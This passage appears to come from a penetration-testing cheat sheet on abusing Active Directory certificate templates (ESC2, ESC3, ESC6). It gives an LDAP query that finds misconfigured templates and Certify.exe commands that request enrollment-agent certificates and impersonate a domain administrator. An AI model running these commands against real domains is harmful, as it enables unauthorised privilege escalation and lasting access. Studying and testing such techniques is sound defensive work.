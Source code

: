 An adversary can renew the compromised certificate before the validity period expires, and so that extend their access to AD without requesting additional ticket enrollments.




## Domain Escalation via Certificates



### Modifiable SAN + Any Purpose EKU (ESC2)

Condition: the vulnerable certificate template allows requesters to specify a SAN in the CSR as well as allows Any Purpose EKU (`2.5.29.37.0`).

Find template with this misconfiguration:

```
PS > Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*))))' -SearchBase 'CN=Configuration,DC=megacorp,DC=local'
```

Request a certificate specifying the `/altname` as a domain admin like in **ESC1**.



### Agent Certificate + Enroll on Behalf of Another User (ESC3)

Conditions:

1. A template allows a low-privileged user to use an enrollment agent certificate.
2. Another template allows a low privileged user to use the enrollment agent certificate to request a certificate on behalf of another user, and the template defines an EKU that allows for domain authentication.

1\. Request an enrollment agent certificate:

```
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CorpCA /template:Vuln-EnrollAgentTemplate
```

2\. Request a certificate on behalf of another to a template that allow for domain authentication:

```
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CorpCA /template:User /onbehalfon:MEGACORP\ITAdmin /enrollcert:enrollmentAgentCert.pfx /enrollcertpw:Passw0rd!
```



### Vulnerable PKI Object ACEs (ESC5)

...



### EDITF_ATTRIBUTESUBJECTALTNAME2 (ESC6)

> If this flag is set on the CA, any request (including when the subject is built from Active Directory) can have user defined values in the subject alternative name.
